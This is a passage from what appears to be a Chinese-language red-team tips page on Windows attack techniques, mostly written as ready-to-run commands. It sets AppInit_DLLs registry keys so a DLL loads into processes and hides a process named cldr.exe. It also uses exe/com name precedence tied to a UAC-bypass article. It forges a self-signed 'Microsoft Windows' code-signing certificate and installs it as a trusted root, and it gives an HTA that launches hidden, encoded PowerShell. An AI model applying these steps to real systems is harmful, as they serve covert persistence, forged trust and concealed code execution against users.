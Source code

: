 此时，任务管理器进程列表不存在cldr.exe，Process Explorer不存在cldr.exe，Tasklist.exe不存在cldr.exe

对于64位系统：

管理员权限：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldrx64.dll" /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldr.dll" /f
```

参考：《利用globalAPIhooks在Win7系统下隐藏进程》

#### Tips 7. 同名exe和com文件执行顺序

如果一个路径下同时包含同名的exe和com文件，例如test.exe和test.com，通过命令行cmd输入test(不包含文件后缀名)，会优先运行com文件，即test.com

而COM文件的生成只需要把exe文件的后缀名改为com即可

参考：《A dirty way of tricking users to bypass UAC》

#### Tips 8. Windows系统证书生成与注册

证书生成与签名：

```
makecert -n "CN=Microsoft Windows" -r -sv Root.pvk Root.cer
cert2spc Root.cer Root.spc
pvk2pfx -pvk Root.pvk -pi 12345678password -spc Root.spc -pfx Root.pfx -f
signtool sign /f Root.pfx /p 12345678password test.exe
```

执行后生成Root.cer、Root.pfx、Root.pvk、Root.spc四个文件，test.exe被加上数字签名

证书注册：

管理员权限cmd，将证书添加到localmachine：

```
certmgr.exe -add -c Root.cer -s -r localmachine root
```

参考：《A dirty way of tricking users to bypass UAC》

#### Tips 9. hta执行vbs，加载powershell

test.hta：

```
&lt;HTML&gt; 
&lt;HEAD&gt; 
&lt;script language="VBScript"&gt;
    Set WshShell = CreateObject("WScript.Shell")
    Connect="powershell -nop -windows hidden -E YwBhAGwAYwAuAGUAeABlAA=="
    WshShell.Run Connect, 4, true
&lt;/script&gt;
&lt;HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize"&gt;
&lt;/HEAD&gt; 
&lt;BODY&gt; 
&lt;/BODY&gt; 
&lt;/HTML&gt;
```